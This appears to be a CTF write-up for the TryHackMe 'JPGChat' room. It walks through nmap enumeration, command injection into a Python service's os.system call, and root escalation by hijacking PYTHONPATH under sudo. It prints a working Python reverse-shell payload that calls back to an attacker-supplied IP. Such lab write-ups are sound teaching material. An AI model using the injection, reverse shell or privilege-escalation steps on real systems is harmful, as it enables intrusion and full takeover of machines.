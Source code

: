 +++ 
draft = false
date = 2021-03-01T17:55:12+05:30
title = "JPGChat TryHackMe Writeup"
description = "Writeup of JPGChat TryHackMe Room"
slug = ""
authors = ["d4rkn1gh7"]
tags = ["ctf","thm","easy_box"]
categories = ["TryHackMe"]
externalLink = ""
series = ["TryHackMe"]
+++
# JPGChat TryHackMe Writeup


![](/TryHackMe/JPGChat/BoxImage.png)


## __First Stage : Enumeration__


So starting with nmap. 

```
# Nmap 7.91 scan initiated Mon Mar  1 15:02:16 2021 as: nmap -sC -sV -T4 -vv -p- -oN nmapscan 10.10.250.123
Nmap scan report for 10.10.250.123
Host is up, received conn-refused (0.15s latency).
Scanned at 2021-03-01 15:02:17 IST for 585s
Not shown: 65533 closed ports
Reason: 65533 conn-refused
PORT     STATE SERVICE    REASON  VERSION
22/tcp   open  ssh        syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fe:cc:3e:20:3f:a2:f8:09:6f:2c:a3:af:fa:32:9c:94 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDXqRxJhw/1rrvXuEkXF+agfTYMZrCisS01Z9EWAv8j6Cxjd00jBeaTGD/OsyuWUGwIqC0duALIIccwQfG2DjyrJCIPYyXyRiTbTSbqe07wX6qnnxV4xBmKdu8SxVlPKqVN36gQtbHWQqk9M45sej0M3Qz2q5ucrQVgWsjxYflYI1GZg7DSuWbI9/GNJPugt96uxupK0pJiJXNG26sM+w0BdF/DHlWFxG0Z+2CMqSlNt4EA2hlgBWKzGxvKbznJsapdtrAvKxBF6WOfz/FdLMQa7f28UOSs2NnUDrpz8Xhdqz2fj8RiV+gnywm8rkIzT8FOcMTGfsvOHoR8lVFvp5mj
|   256 e8:18:0c:ad:d0:63:5f:9d:bd:b7:84:b8:ab:7e:d1:97 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBD2CCqg8ac3eDsePDO27TM9OweWbaqytzrMyj+RbwDCHaAmfvhbA0CqTGdTIBAsVG6ect+OlqwgOvmTewS9ihB8=
|   256 82:1d:6b:ab:2d:04:d5:0b:7a:9b:ee:f4:64:b5:7f:64 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIXcEOgRyLk02uwr8mYrmAmFsUGPSUw1MHEDeH5qmcxv
3000/tcp open  tcpwrapped syn-ack
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Mar  1 15:12:03 2021 -- 1 IP address (1 host up) scanned in 586.24 seconds
```

Hence we can see the open ports are:

* 22
* 3000

So if we visit port 3000.



![](/TryHackMe/JPGChat/port.png)


## __Second Stage : Initial Foothold__



Hence I searched github for **JPGChat**.


![](/TryHackMe/JPGChat/gitsearch.png)


In that repo I found **jpchat.py** .

```python
#!/usr/bin/env python3

import os

print ('Welcome to JPChat')
print ('the source code of this service can be found at our admin\'s github')

def report_form():

	print ('this report will be read by Mozzie-jpg')
	your_name = input('your name:\n')
	report_text = input('your report:\n')
	os.system("bash -c 'echo %s > /opt/jpchat/logs/report.txt'" % your_name)
	os.system("bash -c 'echo %s >> /opt/jpchat/logs/report.txt'" % report_text)

def chatting_service():

	print ('MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel')
	print ('REPORT USAGE: use [REPORT] to report someone to the admins (with proof)')
	message = input('')

	if message == '[REPORT]':
		report_form()
	if message == '[MESSAGE]':
		print ('There are currently 0 other users logged in')
		while True:
			message2 = input('[MESSAGE]: ')
			if message2 == '[REPORT]':
				report_form()

chatting_service()
```

In the report_form method we can see that there is "os.system" which takes executes a bash command for saving the name and report . In that **%s** is where we will inject our command for reverse shell.


So inorder to prevent our command being echoed into the text file , we can use 


> '  payload ; #

the payload is your reverse shell command.


![](/TryHackMe/JPGChat/exploit.png)


![](/TryHackMe/JPGChat/usershell.png)



## __Third Stage : User to Root__


So when I tried **sudo -l** I got this.


![](/TryHackMe/JPGChat/perms.png)



Hence If we open test_module.py we can see the following.

```python
#!/usr/bin/env python3

from compare import *

print(compare.Str('hello', 'hello', 'hello'))
```
Hence we need to create a python file called compare.py which will contain our python reverse shell , and then set the python path for the program and we get shell.


So create a file called **compare.py** in your home directory and paste this python code.

```python
import socket,subprocess,os,pty
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("<your-ip>",1234))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
pty.spawn("/bin/bash") 
```

And then run this command

> sudo PYTHONPATH=/home/wes/ /usr/bin/python3 /opt/development/test_module.py


And we get a shell.


![](/TryHackMe/JPGChat/exploit2.png)

![](/TryHackMe/JPGChat/root.png)


